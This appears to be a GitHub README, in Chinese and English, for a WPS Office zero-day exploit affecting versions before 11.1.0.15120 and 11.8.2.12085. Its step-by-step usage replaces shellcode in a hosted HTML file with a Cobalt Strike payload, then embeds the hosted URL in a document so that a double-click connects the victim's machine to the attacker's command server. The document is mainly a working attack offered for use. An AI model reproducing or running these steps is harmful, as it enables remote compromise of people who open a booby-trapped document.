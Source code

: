 # WPS-0DAY-20230809
WPS Office 2023个人版＜11.1.0.15120; WPS Office 2019企业版＜11.8.2.12085 
## 使用方法
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > 我这里使用的是CS中32位的payload, 使用replace_shellcode.py, 将1.html中的shellcode进行替换, 然后将1.html上传到你的托管地址, 例如: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > 替换poc.docx中的URL, 也就是你的托管地址
3. 双击文档即可上线CS



# WPS-0DAY-20230809
WPS Office 2023 Personal Edition ＜11.1.0.15120; WPS Office 2019 Enterprise Edition ＜11.8.2.12085 
## Usage
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > Here, I am using a 32-bit payload from CS. Use `replace_shellcode.py` to replace the shellcode in `1.html`, then upload `1.html` to your hosting address, for example: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > Replace the URL in `poc.docx`, which is your hosting address
3. Double-click the document to connect to CS

   
